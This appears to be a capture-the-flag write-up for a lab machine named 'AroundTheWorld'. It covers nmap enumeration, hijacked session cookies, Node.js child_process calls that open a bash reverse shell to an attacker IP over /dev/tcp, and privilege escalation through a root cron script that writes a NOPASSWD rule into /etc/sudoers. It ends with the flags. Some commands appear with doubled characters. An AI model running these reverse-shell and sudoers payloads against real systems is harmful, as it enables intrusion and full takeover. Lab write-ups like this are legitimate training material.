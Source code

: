 # AroundTheWorld

## Enumeration

```bash
└─$ nmap -sV -A -p- -sC -T4 10.10.3.188                          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 11:25 BST
Nmap scan report for 10.10.3.188
Host is up (0.034s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 51:91:53:a5:af:1a:5a:78:67:62:ae:d6:37:a0:8e:33 (RSA)
|   256 c1:70:72:cc:82:c3:f3:3e:5e:0a:6a:05:4e:f0:4c:3c (ECDSA)
|_  256 a2:ea:53:7c:e1:d7:60:bc:d3:92:08:a9:9d:20:6b:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Around The World
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 116.37 seconds
```
## Exploitation

### Sessions cookie with Burp Suite for the exploit

```bash
marius = connect.sid=s%3AYEh3XOXfeJ4VmlYmq7JRYp6waS-y555e.Ts929QOfsFRtzp%2FT3bT9nOizyk1LRI5oYZTlTe8vRZs

clement = connect.sid=s%3A40X2GhAa_PU5sozzpjJJkN4O2xcwURpc.FW0yOOX%2BMZeltzwEL8HXypG167cJU1A9FMVop3uE6TM

yes 1 | head -n 10000 > gold.txt

./script.py

require("child_process").exec("bash -c 'exec bash -i &>/dev/tcp/10.8.37.214/4447 <&1'")
require("child_process").exec("bash -c 'exec bash -i &>/dev/tcp/10.8.37.214/4444 <&1'")
```
### Got a reverse shell as simple user

#### Spawn an upgrade shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## User FLAG

```bashcat user.txt``` = EPI{we_R_HuM4N2_4f7eR_4ll}

## Privilege Escalation

### Got a shell as tb3 who has more rights
```bash
sudo -u tb3 /bin/bash

python3 -c 'import pty; pty.spawn("/bin/bash")'

./pspy64 :

2024/05/28 12:05:55 CMD: UID=0     PID=2      | 
2024/05/28 12:05:55 CMD: UID=0     PID=1      | /sbin/init maybe-ubiquity 
2024/05/28 12:06:01 CMD: UID=0     PID=1685   | /bin/sh /home/tb3/admin/clean_logs.sh 
2024/05/28 12:06:01 CMD: UID=0     PID=1684   | rm /home/gm08/admin/log.jukebox 
2024/05/28 12:06:01 CMD: UID=0     PID=1683   | /bin/sh /home/tb3/admin/clean_logs.sh 
2024/05/28 12:06:01 CMD: UID=0     PID=1682   | /bin/sh /home/gm08/admin/clean_logs.sh 
2024/05/28 12:06:01 CMD: UID=0     PID=1681   | /bin/sh -c /home/tb3/admin/clean_logs.sh 
2024/05/28 12:06:01 CMD: UID=0     PID=1680   | /bin/sh -c /home/gm08/admin/clean_logs.sh 
2024/05/28 12:06:01 CMD: UID=0     PID=1679   | /usr/sbin/CRON -f 
2024/05/28 12:06:01 CMD: UID=0     PID=1678   | /usr/sbin/CRON -f

tb3@aroundtheworld:~/admin$ cat clean_logs.sh 
rm /home/gm08/admin/log.jukebox

./jukebox clean_logs.sh

eecchhoo  ""ttbb33  AALLLL==((AALLLL::AALLLL))  NNOOPPAASSSSWWDD  //bbiinn//bbaasshh""  >> //eettcc//ssuuddooeerrss

sudo chown luffy:luffy /root
ssuuddoo  cchhoowwnn  ttbb33::ttbb33  //rroooott

ccaatt  //rroooott//rroooott..ttxxtt  >>  //hhoommee//ttbb33//rroooott..ttxxtt

cat root.txt
```
## Root FLAG

EPI{172_4m421n9_WH@_JOoll_ph1ND_ph4c3_7o_Ph4c3}
